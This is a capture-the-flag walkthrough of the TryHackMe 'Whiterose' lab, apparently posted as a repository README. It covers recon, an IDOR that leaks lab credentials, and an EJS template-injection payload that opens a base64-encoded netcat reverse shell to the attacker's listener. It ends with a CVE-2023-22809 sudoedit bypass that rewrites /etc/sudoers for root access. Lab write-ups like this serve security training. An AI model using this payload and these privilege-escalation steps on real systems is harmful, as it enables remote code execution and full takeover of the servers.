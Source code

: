 TryHackMe | Whiterose

## Recon: nmap scan

![Alt text for the image](nmap.png)

## Change config file /etc/hosts

![Alt text for the image](etc.png)

## The webpage

![Alt text for the image](webpage.png)

## Brute forcing directories and other things with ffuf and feroxbuster

![Alt text for the image](fuzz.png)

![Alt text for the image](fuzz1.png)

## Change config file /etc/hosts

![Alt text for the image](etc1.png)


## Web access with olivas credentials we where given by the room (Olivia Cortez:olivi8)
But we can take a look at the news history. This is set to ?c=5 during the visit. The parameter c can be checked for IDOR. (http://admin.cyprusbank.thm/messages/?c=5)

With the parameter value 0 we find the credentials of an admin user Gayle Bev. (http://admin.cyprusbank.thm/messages/?c=0)

![Alt text for the image](login_page.png)

![Alt text for the image](message.png)

![Alt text for the image](message1.png)

## Web Access Gayle Bev

We use the found credentials to log in as Gayle Bev and are successful. (Gayle Bev:p~]P@5!6;rs558:q)

![Alt text for the image](gayle_login.png)

We are now able to read the telephone numbers of Tyrell Wellick.

![Alt text for the image](flag1.png)

## Shell as web
We can set the customer's passwords here. What is noticeable is that the passwords are reflected. This immediately draws attention to XSS or SSTI.

We can know this website is vulnarable to SSTI because of this error

![Alt text for the image](server_error.png)

We can find SSTI payloads here: 
  
     https://github.com/mde/ejs/issues/720
     https://eslam.io/posts/ejs-server-side-template-injection-rce/

Next, we set up a listener and us the following payload to spawn a reverse shell.

## Generate a reverse shell

![Alt text for the image](reverse_shell_gen.png)

Encode it in base64 and add it to the payload belwo

![Alt text for the image](encoding.png)
    
    name=a&passord=b&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('bash -c "echo YnVzeWJveCBuYyAxMC4xNC45MC4yMzUgNDQ0NSAtZSAvYmluL2Jhc2g= | base64 -d | bash"');//

![Alt text for the image](payload.png)

We should reveice back a connection like this

![Alt text for the image](netcat_listener.png)

We receive a connection back and are the user web. In the home directory of web we find the first flag. After we have received our reverse shell, we then upgrade it. 

![Alt text for the image](flag2.png)

## Upgrading our shell: Follow the steps in the link bellow:

    https://0xffsec.com/handbook/shells/full-tty/

![Alt text for the image](upgrade.png)

![Alt text for the image](upgrade1.png)

We can go to web home directory and find the second flag

## Privilege escelation

Whe can see what commands we can use root with

 ![Alt text for the image](shell_as_root.png)

You can use sudoedit as root without a password to modify the file /etc/nginx/sites-available/admin.cyprusbank.thm.
After some reasearch we find (https://www.vicarius.io/vsociety/posts/cve-2023-22809-sudoedit-bypass-analysis)
CVE-2023-22809 for sudoedit

After upgrading our shell 

we use this exploit to see the hash of root

To escalate our privileges to root, we attempt to edit the /etc/sudoers file.
    
    export EDITOR="vi -- /etc/sudoers"
    sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm

The first part shows you how to get the hash.

 ![Alt text for the image](hash..png)

 ![Alt text for the image](root_hash.png)


The second part lets you change /etc/sudoers, here we target the line with the command allowing us to execute that specifies the sudoedit command:
    
    web ALL=(root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm

and replace it with the following:

    web ALL=(root) NOPASSWD: ALL  

This makes it so any user can login as root with no passwords

![Alt text for the image](edit.png)

## We are root!

Now we are able to execute any command as root without providing a password and use that to switch to the root user. 

![Alt text for the image](root.png)

To get our last flag

![Alt text for the image](falg3.png)
